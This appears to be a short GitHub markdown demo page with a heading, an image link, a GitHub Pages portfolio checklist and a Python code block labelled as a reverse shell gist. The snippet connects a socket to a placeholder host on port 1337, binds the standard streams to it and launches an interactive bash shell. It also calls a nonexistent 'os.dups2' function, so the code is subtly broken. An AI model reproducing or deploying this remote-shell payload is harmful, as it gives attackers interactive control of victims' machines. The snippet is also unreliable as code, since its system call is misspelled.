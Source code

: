 # This is a H1 Tag

![Image of Yaktocat](https://octodex.github.com/images/yaktocat.png)

```python
# This is a python reverse shell gist
import os
import socket
import subprocess

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("x.x.x.x", 1337))

os.dups2(s.fileno(),0)
os.dups2(s.fileno(),1)
os.dups2(s.fileno(),2)

subprocess.call(["/bin/bash", "-i"])
```
- [ ] Turn on GitHub Pages
- [ ] Outline my porfolio
- [ ] Introduce myself to the world

